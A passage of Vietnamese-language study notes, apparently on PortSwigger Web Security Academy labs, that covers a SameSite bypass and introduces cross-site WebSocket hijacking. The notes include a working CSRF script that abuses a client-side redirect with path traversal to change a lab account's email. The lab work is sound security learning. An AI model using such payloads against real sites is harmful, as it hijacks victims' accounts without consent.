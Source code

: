 -![](./img_csrf/csrf-7.1.png)

- Vậy chúng ta co thể thấy nó sẽ dùng window.location để chuyển lại trang web. Chúng ta có thể vận dụng lỗ hổng bằng cách thực hiện truy vấn `/post/comment/confirmation?postId=9/../../my-account`

- Tôi đã viết một script như sau:

```javascript
<script>
    document.location = "https://0a35007504e2dda8c22fe37d007f002c.web-security-academy.net/post/comment/confirmation?postId=1/../../my-account/change-email?email=admin111%40gmail.com%26submit=1";
</script>
```

>### **SameSite Strict bypass via sibling domain**

- `Tìm hiểu Cross-site WebSocket hijacking`

  - WebSocket là một giao thức hai chiều được khởi tạo qua HTTP. Được sử dụng trong các ứng dụng web hiện đại đẻ truyền dữ liệu và lưu lượng không đồng bộ khác.

- `Sự khác biệt giữa HTTP và WebSockets`

  - Hầu hết giao tiếp giữa trình duyệt web và trang web đều sử dụng HTTP.Với HTTP sẽ có request và response. Và thông thường response sẽ phản hồi ngay lập tức và hoàn tất giao tiếp.
  - Một số trang web hiện đại sử dụng WebSockets. Các kết nối WebSocket được bắt đầu qua HTTP và thường tồn tại lâu dài. Tin nhắn có thể được gửi theo một trong hai hướng vào bất kỳ lúc nào và không mang tính chất giao dịch. Kết nối thường sẽ mở và không hoạt động cho đến khi máy khách hoặc máy chủ sẵn sàng gửi tin nhắn.
- `Các kết nối WebSocket được thiết lập như thế nào?`

```javascript
var ws = new WebSocket("wss://normal-website.com/chat");
```
